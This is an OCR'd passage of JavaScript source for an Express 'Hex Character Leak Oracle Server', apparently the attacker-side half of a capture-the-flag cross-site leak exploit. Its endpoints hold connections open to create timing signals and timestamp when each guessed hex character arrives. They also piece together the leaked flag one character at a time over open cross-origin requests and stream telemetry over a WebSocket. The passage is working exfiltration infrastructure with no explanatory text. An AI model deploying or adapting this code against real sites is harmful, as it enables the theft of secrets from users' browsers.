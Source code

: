 ```jsx
        'Transfer-Encoding': 'chunked',
        'Access-Control-Allow-Origin': '*',
    });
    res.flushHeaders?.();
    res.write('FUSE\n');
    setTimeout(() => { try { res.socket?.destroy(); } catch { } }, ms);
    req.on('close', () => { try { res.end(); } catch { } });
});

// Fast character endpoint: replies immediately (no holding). We timestamp ARRIVAL.
// Now supports both digits and hex chars
app.get('/char/:round/:char', (req, res) => {
    const t = Number(process.hrtime.bigint() / 1_000_000n); // ms
    const char = req.params.char; // Can be 0-9 or a-f
    tell({ type: 'char', round: +req.params.round, char: char, t, host: req.headers.host });
    res.set({
        'Access-Control-Allow-Origin': '*',
        'Cache-Control': 'no-store',
        'Connection': 'close'
    });
    res.end('OK');
});

// Flag reporting endpoint
app.post('/flag', (req, res) => {
    const { char, flag } = req.body;
    if (char) {
        leakedFlag += char;
        console.log(`[FLAG] New character discovered: '${char}'`);
        console.log(`[FLAG] Current flag: ${leakedFlag}`);
        tell({ type: 'flag', char, currentFlag: leakedFlag });
    }
    res.set('Access-Control-Allow-Origin', '*');
    res.json({ success: true, currentFlag: leakedFlag });
});

// Get current flag status
app.get('/flag', (req, res) => {
    res.set('Access-Control-Allow-Origin', '*');
    res.json({ flag: leakedFlag, length: leakedFlag.length });
});

// Sanity
app.get('/fast', (req, res) => { res.set('Access-Control-Allow-Origin', '*'); res.end('OK'); });

// WebSocket (telemetry)
app.ws('/ws', (ws) => {
    clients.add(ws);
    ws.on('close', () => clients.delete(ws));
    ws.on('error', () => clients.delete(ws));
});

// Serve HTML file if requested
app.get('/', (req, res) => {
    res.set('Access-Control-Allow-Origin', '*');
    res.send(`
        <h1>Hex Character Leak Oracle Server</h1>
        <p>Server is running on port 80</p>
        <p>Current leaked flag: <code>${leakedFlag || '(none yet)'}</code></p>
        <p>Endpoints:</p>
        <ul>
            <li>GET /hold - Long hold endpoint</li>
            <li>GET /hold-fuse - Fused hold endpoint</li>
```